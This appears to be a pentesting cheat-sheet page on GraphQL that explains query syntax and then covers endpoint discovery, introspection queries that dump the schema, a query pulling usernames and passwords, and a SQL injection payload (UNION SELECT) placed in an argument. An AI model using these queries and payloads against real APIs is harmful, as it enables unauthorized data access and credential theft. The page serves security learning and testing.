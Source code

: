 ```yaml
---
title: GraphQL Pentesting
description: An open-source data query and manipulation language for APIs, and a runtime for fulfilling queries with existing data.
tags:
    - Web
refs:
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection
    - https://graphql.org/learn/queries/
    - https://escape.tech/blog/pentest101/
date: 2023-06-17
draft: false
---
```


## Common Directories

```txt
/graphql
/graphiql
/graphql.php
/graphql/console
```

<br />

## Basic Operations - Queries

We can fetch field information by sending queries.

```graphql
query {
	__typename
}
```

### Fields

To fetch a field object, send a query like the following.

```graphql
query {
	user {
		name
		friends {
			name
		}
	}
}
```

### Arguments

We can get the specific information by padding arguments (e.g. `id`) to fields.

```graphql
query {
	user (id: "1") {
		name
	}
}
```

### Aliases

We can set aliases each field to get multiple results in one request.

```graphql
query {
	John: user (id: "1") {
		name
		age
	}
	Emma: user (id: "2") {
		name
		age
	}
}
```

### Fragments

We can define arbitrary fragment that is be reusable when fetching each field.

```graphql
query {
	firstUser: user (id: "1") {
		...userFields
	}
	secondUser: user (id: "2") {
		...userFields
	}
	
	fragment userFields on User {
		name
		age
		friends {
			name
		}
	}
}
```

### Operation Names

We can define an operation name to make an operation less ambiguous. By setting a name, it makes it easier to understand at a glance what kind of operation.

```graphql
query UserNameAndFriends {
	user {
		name
		friends {
			name
		}
	}
}
```

### Variables

```graphql
query UsrNameAndFriends($userId: ID) {
	user (id: $userId) {
		name
		friends {
			name
		}
	}
}
```

### Directives

We can filter by passing a directive in fields.

- **include**

Only include this field if the argument is `true`.

```graphql
query UserNameAndFriends($userId: ID, $withFriends: Boolean!) {
	user(id: $userId) {
		name
		friends @include(if: $withFriends) {
			name
		}
	}
}
```

- **skip**

Skip this field if the argument is `true`.

```graphql
query UserNameAndFriends($userId: ID, $withFriends: Boolean!) {
	user(id: $userId) {
		name
		friends @skip(if: $withFriends) {
			name
		}
	}
}
```

<br />

## Basic Operations - Mutations

We can modify fields with the `mutation` field.

```graphql
mutation {
	__typename
}
```

To modify a field, execute like the following.

```graphql
mutation CreateCommentForPost($postId: ID!, $comment: Comment!) {
	createComment(id: $postId, comment: $comment) {
		comment
	}
}
```

## Enumeration

```graphql
# List fields
query { __schema { types { name } } }
query { __schema { types { fields { name } } } }
query { __schema { types { fields { name description } } } }
query { __schema { types { name fields { name } } } }
query { __schema { types { name fields { name args { name description type { name kind ofType { name kind } } } } } } }

# Dump database schema
fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason }  possibleTypes { ...TypeRef }} fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name } } } } } } }} query IntrospectionQuery { __schema { queryType { name } mutationType { name } types { ...FullType } directives { name description locations args { ...InputValue } } } }

# Dump specific field
query { getUsers { username, password } }
```

<br />

## SQL Injection

We might be able to inject SQL somewhere e.g. arguments. Please refer to [SQL Injection Cheat Sheet](/exploit/web/security-risk/sql-injection-cheat-sheet/) for more payloads.

```graphql
{
	user (id: "1' UNION SELECT null,null-- -") {
		name
		password
	}
}
```

<br />

## NoSQL Injection

We might be able to inject NoSQL somewhere e.g. arguments. Please refer to [NoSQL Injection](/exploit/web/security-risk/nosql-injection/) for more payloads.

